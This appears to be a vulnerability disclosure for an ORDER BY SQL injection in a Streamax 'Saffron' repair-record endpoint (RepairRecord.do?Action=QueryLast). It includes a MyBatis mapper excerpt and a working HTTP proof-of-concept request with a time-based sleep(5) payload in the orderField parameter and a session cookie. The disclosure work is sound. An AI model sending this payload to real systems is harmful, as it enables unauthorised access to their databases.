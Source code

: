 ```xml
		</if>
		<if test="sortField==null">
			order by a.appointtime desc
		</if>
		<if test="startIndex>=0 and endIndex>=0">
			limit #{startIndex},#{endIndex}			
		</if>
	</select>
```
<img width="2094" height="1385" alt="image" src="https://github.com/user-attachments/assets/fd64c2ea-4e6b-4ebe-b49f-99c8dc7d69c2" />

This is a typical **ORDER BY injection** vulnerability.

We trace back to find the source point, and locate it in `streamax.saffron.controller.devicemaintain.RepairRecordController#queryLast`.

<img width="2296" height="1025" alt="image" src="https://github.com/user-attachments/assets/31da370c-f09b-4f47-8f80-10bae7c2d9bb" />

It turns out that the parameters are controllable by the user. Based on this, we constructed the following Proof of Concept (POC):

```
POST http://ip:port/RepairRecord.do?Action=QueryLast HTTP/1.1
Host: ip:port
Content-Length: 163
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
Content-Type: application/x-www-form-urlencoded

EndTime=2024-08-20+00%3A00%3A00&PageIndex=0&PageSize=20&RepairState=-1&StartTime=2024-08-26+00%3A00%3A00&orderField=(select*from(select%0asleep(5))a)&orderType=asc
```
<img width="2003" height="1090" alt="image" src="https://github.com/user-attachments/assets/eb3f1e23-d9b2-4d0b-95e6-81e8b37d8e65" />

The successful 5-second delay confirms that the `RepairRecord.do?Action=QueryLast` interface has an SQL injection vulnerability.

Thank you for your review! Wish you all the best!
